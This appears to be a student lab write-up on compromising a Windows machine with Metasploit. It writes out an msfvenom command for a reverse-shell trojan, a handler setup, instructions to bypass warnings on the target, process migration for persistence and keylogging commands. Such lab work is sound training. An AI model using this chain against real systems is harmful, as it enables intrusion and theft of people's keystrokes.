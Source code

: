 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT:
![{2F2897E0-6516-4AD3-AE75-E6A54921B2B0}](https://github.com/user-attachments/assets/2f69d906-0b7a-4878-8f96-272bacc10e00)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![{2C21FF62-F562-4782-B909-049A42CC593C}](https://github.com/user-attachments/assets/88b39238-d2b6-447d-bc46-08dc30ccab8e)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT
![{3C460FE9-E273-48FD-A9BA-1E970F76C10A}](https://github.com/user-attachments/assets/5034838b-e3d2-4f9f-b645-21b5c8ecdcba)

Start apache server
sudo systemctl apache2 start
## OUTPUT
![{A18E2703-6BC8-489B-B851-7AF2FCC9A674}](https://github.com/user-attachments/assets/7cb75fb5-6fa0-449a-8b21-e8f8b2fb6fcf)

Check the status of apache2
## OUTPUT
![{09B2BE79-CFD1-4D03-89E5-F86C77C2518E}](https://github.com/user-attachments/assets/d8909df4-12f7-4a3a-888f-f8891c81c5e9)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/9d3f4d70-6d31-454a-81e8-105eb0224090)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT:
![image](https://github.com/user-attachments/assets/ffd46926-d6b7-4ad2-8df4-26cd01a10af1)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:
![{E84D4838-7060-48DE-B3DA-21C7A34F043F}](https://github.com/user-attachments/assets/e92d7605-0cdd-4a60-9fbc-f87490d37a9f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
## OUTPUT:
![{BAE9399A-E72F-4E3E-9665-1118E9380795}](https://github.com/user-attachments/assets/2094ca08-d751-4add-af92-0ab1d0d1da53)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![{F6A80601-F10F-4D0A-BE8F-290915700BB6}](https://github.com/user-attachments/assets/e61066d7-12fb-4942-9f01-3906941f7c47)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![{6087F0A6-6E46-477B-9924-1257ACDE1732}](https://github.com/user-attachments/assets/fd50817c-df2b-40e2-bcb3-920d2baa5da0)

keyscan_dump Shows the keystrokes captured so far
## OUTPUT:
![{3F23C5EF-F4C5-4E0E-92FE-827C3FCC1B55}](https://github.com/user-attachments/assets/a5ce96df-cd40-4772-b531-90cf2462d6bf)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
